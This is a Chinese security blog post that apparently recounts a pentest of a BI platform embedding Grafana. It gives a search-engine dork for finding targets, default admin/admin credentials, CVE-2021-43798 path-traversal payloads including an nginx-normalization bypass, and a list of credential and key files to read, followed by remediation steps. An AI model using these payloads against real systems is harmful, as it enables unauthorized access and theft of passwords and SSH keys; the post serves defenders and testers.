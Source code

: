 #  某易BI平台渗透之旅

天明  [ 潇湘信安 ](javascript:void\(0\);)

**潇湘信安** ![]()

微信号 xxxasec

功能介绍 一个不会编程、挖SRC、代码审计的安全爱好者，主要分享一些安全经验、渗透思路、奇淫技巧与知识总结。

____

___发表于_

收录于合集

#实战案例 121 个

#渗透技巧 29 个

**声明：**
该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。  
---  
  
  

 **0x01 前言**

这篇文章由"潇湘信安技术交流群"@天明师傅投稿，记录的是他在公司某个安服项目中碰到了这个BI平台，机缘巧合之下发现了这个通用漏洞，特意投稿分享下经验。  

  

 **0x02  渗透之旅**

刚开始采用awvs、afrog和nuclei进行全量的漏洞扫描时未有任何发现，后面尝试目录探测时有了新的发现。  

  

####  **峰回路转之dirsearch的救赎**

  *   *   *   *   *   * 

    
    
     [09:42:33] 200 -   32KB - /monitoring/                                      [09:42:33] 200 -   32KB - /monitor/[09:42:33] 200 -   32KB - /monitoring[09:42:34] 200 -   32KB - /monitor   
    [09:41:39] 200 -  751B  - /callback

  

/monitoring/、/monitor/这俩路径绝对会触发302跳转，callback则是随机，可能触发跳转。

![](https://gitee.com/fuli009/images/raw/master/public/20221109084031.png)  

这个就是今天的主角。

  

正常请求BI平台：

![](https://gitee.com/fuli009/images/raw/master/public/20221109084042.png)  

zoomeye dork

  * 

    
    
    iconhash:"dfbaaf8af7911cfb7eb068d8b19f6799"

![](https://gitee.com/fuli009/images/raw/master/public/20221109084043.png)  

影响范围：仅在V 7.20版本测试成功。

  

版本号可以根据页面当中的用户手册来判断。

![](https://gitee.com/fuli009/images/raw/master/public/20221109084044.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221109084045.png)

  

####  **思路1-默认口令**

默认口令：admin
admin，不知道其他目标如何，至少我碰上的目标未修改。不过即使修改了也无伤大雅，有一个文件读取漏洞等着你，可以搞到grafana的账号密码。

  

####  **思路2-Grafana文件读取**

CVE-2021-43798这个漏洞信息的部分可自行百度了解，此处单刀直入，直接说利用细节。

  

 **最初的验证POC为：**

  * 

    
    
     /monitor/public/plugins/grafana-clock-panel/../../../../../../../../etc/passwd

  

 **此处利用应修改为：**

  * 

    
    
     /monitor/public/plugins/grafana-clock-panel/../../../../../../../../etc/passwd

  

 **注：**
一般情况下就成了，如果对方使用了nginx/apache反代，中间件的URI_normalization机制导致URL被标准化。此时原有payload就会失效，服务端会爆400错误。如下图所示：

  *   *   *   *   *   *   *   *   *   * 

    
    
    # proxy_grafana.conf  
    server {    listen         8081;    server_name    127.0.0.1;    charset        utf-8;    location / {        proxy_pass http://192.168.1.100:3000;    }}

![](https://gitee.com/fuli009/images/raw/master/public/20221109084046.png)  

此时可采用bypass 400的payload进行绕过，payload为：

  * 

    
    
    /monitor/public/plugins/text/#/../../../../../../../../../../etc/passwd

![](https://gitee.com/fuli009/images/raw/master/public/20221109084047.png)  

深入利用

  *   * 

    
    
    /etc/grafana/grafana.ini         #grafana控制台的管理员明文密码/var/lib/grafana/grafana.db      #控制台其他账户

  

/etc/grafana/grafana.ini

![](https://gitee.com/fuli009/images/raw/master/public/20221109084049.png)  

linux文件遍历，此处只举出比较重要的，更全面的可以参考Web-Fuzzing-Box的Linux_File.txt

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    /conf/defaults.ini/etc/grafana/grafana.ini/etc/passwd/etc/shadow/home/grafana/.bash_history/home/grafana/.ssh/id_rsa/root/.bash_history/root/.ssh/id_rsa/usr/local/etc/grafana/grafana.ini/var/lib/grafana/grafana.db/proc/net/fib_trie/proc/net/tcp/proc/self/cmdline

  

关于nginx proxy error 400相关文章可参考，这里我用的是第二篇文章里的一个payload。

  *   * 

    
    
    https://articles.zsxq.com/id_baeb9hmiroq5.html    https://blog.riskivy.com/grafana-任意文件读取漏洞分析与汇总cve-2021-43798/#_Nginx_400

  

####  **关于CVE-2021-43798的修复**

  1. 升级到安全版本，即版本号>8.3.0。
  2. 临时防御：修改proxy_grafana的配置如下所示：

 **Tips** ：重点是proxy_pass的端口号后一定要加上`/`

  *   *   *   *   *   *   *   *   * 

    
    
    # proxy_grafana.confserver {listen         8081;server_name    127.0.0.1;charset        utf-8;location / {proxy_pass http://192.168.1.100:3000/;    }}

  

 **0x03 参考文章**

  *   * 

    
    
     https://github.com/jas502n/Grafana-CVE-2021-43798https://blog.riskivy.com/grafana-任意文件读取漏洞分析与汇总cve-2021-43798/

  

* * *

 **关 注 有 礼**

  
  
关注公众号回复“9527”可以领取一套HTB靶场文档和视频，“1208”个人常用高效爆破字典，“0221”2020年酒仙桥文章打包，“2191”潇湘信安文章打包，“1212”杀软对比源码+数据源，“0421”Windows提权工具包。

![](https://gitee.com/fuli009/images/raw/master/public/20221109084050.png)
还在等什么？赶紧点击下方名片关注学习吧！![](https://gitee.com/fuli009/images/raw/master/public/20221109084050.png)

* * *

 **推 荐 阅 读**

  
  
  
[![](https://gitee.com/fuli009/images/raw/master/public/20221109084052.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247491360&idx=1&sn=e4c3d356b45d7fe821dc2b645f30a595&chksm=cfa6bb33f8d132259884026238db7b79f33da3f3fff2f90a87e4a447118a1be8c4e948031d8f&scene=21#wechat_redirect)[![](https://gitee.com/fuli009/images/raw/master/public/20221109084053.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)[![](https://gitee.com/fuli009/images/raw/master/public/20221109084054.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

* * *

![](https://gitee.com/fuli009/images/raw/master/public/20221109084055.png)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


